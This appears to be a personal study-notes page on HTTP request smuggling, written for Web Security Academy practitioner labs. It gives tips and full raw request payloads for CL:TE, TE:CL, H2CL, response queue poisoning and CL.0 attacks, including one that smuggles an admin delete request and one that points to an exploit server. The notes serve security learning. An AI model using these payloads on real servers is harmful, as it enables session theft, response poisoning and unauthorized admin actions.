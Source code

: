 ```yaml
---
description: Request Smuggling Practitioner Labs Notes
---
```


# 🏴☠ RequestSmuggling

* Launch Smuggle Probe and H2 Probe. Might miss CL.0
* Try sending extra fast request, ctrl+space
  * Make a separate tab in repeater and spam to see weird requests
    * Should happen within 10 seconds of holding down request
* Double check endings of smuggled request
  * You need to include the trailing sequence `\r\n\r` following the final 0. TE:CL
* Make sure content-length is appropriate for attack and doesn't eat into the smuggled request

### CL:TE Diff Response Testing

* Don't count the 0 that ends the chunk in the leading hex number(byte count)

```
POST / HTTP/1.1
Host: 0aff001903b2238cc1550dd0002a001b.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 46
Transfer-Encoding: chunked

b
q=smuggling
0

GET /404 HTTP/1.1
Foo: X
```

### TE:CL Differential Response Testing

* Two Trailing NewLines
* Content-Length: 4 for the initial Request header (assuming two digit hex number payload)
  * disable update content-length in repeater
* Hex number to start POST payload = Following bytes-7
  * States the bytelength of upcoming "chunk"
  * Starting from Following HTTP Method to include the last newline

```
POST / HTTP/1.1
Host: 0ada00f40447df13c3aec9dc00bf0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0ada00f40447df13c3aec9dc00bf0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

#### Capturing Request in Comment

* Spam requests until you get two normal responses in a row
  * Means request was sent in between
  * START SHORT then lengthen content-length
    * Use headers to simplify padding to avoid 500/400 errors when repeating
    * Smuggling req content-length can start corrupting 3rd request for smuggle
      * Should only have two different responses

### H2 Settings

* Launch H2 Smuggle Probe to scan
  * Won't show up through normal active scan
* Repeater Options disable Update Content Length
* Repeater Options enable Allow HTTP/2 ALPN override
* Inspector -> Request Attributes -> Protocol HTTP/2
* Remove any weird `:HEADER Value` that Burp may have added when testing
* Test full exploit on self, especially if poisoning for XSS
  * Quick refresh and send very necessary

**H2CL**

```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1 
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net 
Content-Length: 5 

x=1
```

**Inspector tab of editing H2 Header for CRLF**

!\[CRLF Injection in H2C.png]\([https://github.com/budgy11/BurpNotes/blob/main/.gitbook/assets/CRLF%20Injection%20in%20H2C.png](.gitbook/assets/CRLF%20Injection%20in%20H2C.png))

### Response Queue Poisoning

* More cookies
* Repeat the poisoning request until response is interesting (may take spamming)

```
POST / HTTP/2
Host: 0a0500b303418726c3414233008400b2.web-security-academy.net
Cookie: session=aNKjt644Drm0JgFqrdvkYm1yWY3GjLCi
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Transfer-Encoding: chunked
Content-Length: 91

0

GET /404 HTTP/1.1
Host: 0a0500b303418726c3414233008400b2.web-security-academy.net

```

*   Also possible in HTTP/2 Headers

    * May break the website formatting? stay frosty&#x20;

    !\[Request Splitting H2 Headers.png]\([https://github.com/budgy11/BurpNotes/blob/main/.gitbook/assets/Request%20Splitting%20H2%20Headers.png](.gitbook/assets/Request%20Splitting%20H2%20Headers.png))

### CL.0

* Endpoint specific vulnerability
* Send group in sequence, single connection.
* Connection: keep-alive
* Request 1

```
POST /resources/images/blog.svg HTTP/1.1
Host: 0acc000204a8e462c1707b3e00c00090.web-security-academy.net
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acc000204a8e462c1707b3e00c00090.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: Keep-alive
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

* Request 2 is just a valid request
  * may not be necessary during testing?
* Similar technique may work with Host header to bypass endpoint restrictions
